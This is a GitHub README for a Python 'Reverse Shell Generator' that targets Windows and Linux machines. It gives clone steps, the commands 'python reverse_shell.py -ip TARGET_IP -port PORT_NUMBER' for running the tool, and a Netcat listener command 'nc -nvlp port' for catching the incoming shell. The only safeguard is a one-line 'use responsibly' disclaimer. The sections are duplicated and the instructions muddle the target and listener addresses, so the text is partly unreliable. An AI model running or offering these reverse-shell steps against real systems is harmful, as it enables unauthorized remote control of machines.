 # Reverse Shell Generator

A Python script for creating a reverse shell on target systems, supporting both Windows and Linux platforms. Use responsibly and with proper authorization.

## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- Python 3.x
- `psutil` library
- A target machine to run the reverse shell on

### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/huho-0/Strike/

2. Change into the project directory:
    ```bash
   cd strike

#Configuration

No specific configuration is required for this script. However, you need to specify the target IP and port using command-line arguments.


## Getting Started

These instructions will help you get a copy of the project up and running on your local machine.

### Prerequisites

To run this script, you will need:

- **Python 3.x**
- **psutil** library
- A target machine to run the reverse shell on

### Installation

1. Clone the repository:

   ```bash
   git clone https://github.com/huho-0/Strike/
2. Change into the project directory:
   ```bash
   cd strike


##Usage

To create a reverse shell, you can use this script as follows:

1. For Windows:

   ```bash
   python reverse_shell.py -ip TARGET_IP -port PORT_NUMBER
2. For Linux:

   ```bash
   python reverse_shell.py -ip TARGET_IP -port PORT_NUMBER

#How to Run the Code

To run the code, follow the usage instructions provided in the "Usage" section above.

- Make sure you have the required dependencies installed.
- Replace TARGET_IP with the IP address of the target machine.
- Replace PORT_NUMBER with the port number to connect to on the target machine.
- The script will create a reverse shell connection to the specified IP and port.

#IMPORTANT

You want to start listen to the specific port using 'Netcat' in  another device inorder to receive the reverse shell from the target
- listen through Netcat
  ```bash
  nc -nvlp port
